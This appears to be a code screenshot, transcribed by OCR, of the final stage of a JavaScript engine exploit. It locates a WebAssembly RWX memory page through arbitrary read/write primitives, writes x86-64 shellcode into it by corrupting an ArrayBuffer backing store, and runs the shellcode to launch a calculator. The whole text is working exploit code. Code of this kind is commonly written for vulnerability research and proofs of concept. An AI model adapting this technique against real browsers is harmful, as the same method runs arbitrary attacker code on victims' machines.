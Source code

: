 ```javascript
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

var rwx_page_addr = arb_read(addrof(wasm_instance)-1n+0x88n);

console.log("[+] RWX Wasm page addr: 0x" + rwx_page_addr.toString(16));

function copy_shellcode(addr, shellcode) {
    let buf = new ArrayBuffer(0x100);
    let dataview = new DataView(buf);
    let buf_addr = addrof(buf);
    let backing_store_addr = buf_addr + 0x20n;
    initial_arb_write(backing_store_addr, addr);

    for (let i = 0; i < shellcode.length; i++) {
	dataview.setUint32(4*i, shellcode[i], true);
    }
}

// https://xz.aliyun.com/t/5003
var shellcode=[0x90909090,0x90909090,0x782fb848,0x636c6163,0x48500000,0x73752fb8,0x69622f72,0x8948506e,0xc03148e7,0x89485750,0xd23148e6,0x3ac0c748,0x50000030,0x4944b848,0x414c5053,0x48503d59,0x3148e289,0x485250c0,0xc748e289,0x00003bc0,0x050f00];

console.log("[+] Copying xcalc shellcode to RWX page");

copy_shellcode(rwx_page_addr, shellcode);

console.log("[+] Popping calc");

f();
```
